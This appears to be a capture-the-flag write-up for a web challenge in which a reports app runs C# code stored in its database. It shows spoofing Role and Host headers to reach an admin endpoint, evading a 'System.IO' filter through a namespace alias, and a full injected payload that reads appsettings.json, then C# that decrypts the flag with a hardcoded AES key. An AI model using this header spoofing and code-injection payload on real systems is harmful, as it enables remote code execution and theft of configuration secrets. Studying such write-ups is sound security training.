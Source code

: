 ## Writeup


### Introduction
The reports application generates a report by executing the code found in the "Reports" table in the database. This opens up for an opportunity to execute a RCE exploit.


### Exploitation
The /api/Data endpoint allows users with the Admin role originating from a set of defined hostnames to add new reports to the database.

To gain access to this endpoint, two headers must be set: 
`Cookie: Role=Admin`
`Host: localhost`
 
The next step is to craft a payload to retrieve the flag. However, there is a restriction: the code must not contain `System.IO`. To circumvent this limitation, we can alias System as another name, for example: using `S = System;`.

The final payload can be crafted as such:

```json
{
    "id": "1001",
    "name": "Shit2",
    "code": "using System;\nusing System.Data;\nusing System.Data.Common;\nusing Microsoft.Data.Sqlite;\nusing System.Text;\nusing Microsoft.EntityFrameworkCore.ValueGeneration.Internal;\nusing Microsoft.EntityFrameworkCore;\nusing S = System;\nusing WebSite.Models;\nusing System.Collections;\nusing System.Collections.Generic;\n\nnamespace WebSite.Models\n{\n    class ReportTableModelData\n    {\n        public ReportDataModel CreateModel(string conection)\n        {\n            var flag = S.IO.File.ReadAllText(\"appsettings.json\");\n       var data = new ReportDataModel();\n            data.Headers.Add(\"Shit\");\n            \n              var row = new List<string>();\n              row.Add(flag);\n              data.Data.Add(row);\n\n            return data;\n        }\n\n        \n    }\n}\n"
}
```

This payload can then be sent to the Data endpoint. This must be repeated for appsettings.json too. After retrieving the ciphertext and the AES parameters, we can use the following code to decrypt: 

```csharp
using System;
using System.IO;
using System.Security.Cryptography;

    class Program
    {
         static string GetFlag() {
            var key =  System.Convert.FromBase64String("+m/PvlP8q2qteBXh1DPBNBcqflqsIsmcxA1WP0AP+tg=");
            var IV =  System.Convert.FromBase64String("wdNJlxKPtwfxcTw+oYJSOQ==");
            var encrypted_flag =  System.Convert.FromBase64String("BkGxf0oAV5YHjUE3zUQ+Ri07oz3r+fB9l6MArFkm7HF2D4yWA55CMPywL9TSeAu1");

            var flag =DecryptStringFromBytes_Aes(encrypted_flag, key, IV);
            return flag;

         }
         static string DecryptStringFromBytes_Aes(byte[] cipherText, byte[] Key, byte[] IV)
        {
            // Check arguments.
            if (cipherText == null || cipherText.Length <= 0)
                throw new ArgumentNullException("cipherText");
            if (Key == null || Key.Length <= 0)
                throw new ArgumentNullException("Key");
            if (IV == null || IV.Length <= 0)
                throw new ArgumentNullException("IV");

            // Declare the string used to hold
            // the decrypted text.
            string plaintext = null;

            // Create an Aes object
            // with the specified key and IV.
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = Key;
                aesAlg.IV = IV;

                // Create a decryptor to perform the stream transform.
                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                // Create the streams used for decryption.
                using (MemoryStream msDecrypt = new MemoryStream(cipherText))
                {
                    using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
                    {
                        using (StreamReader srDecrypt = new StreamReader(csDecrypt))
                        {

                            // Read the decrypted bytes from the decrypting stream
                            // and place them in a string.
                            plaintext = srDecrypt.ReadToEnd();
                        }
                    }
                }
            }

            return plaintext;
        }
    
        static void Main(string[] args)
        {
          Console.WriteLine(Program.GetFlag());
        }
    }
```
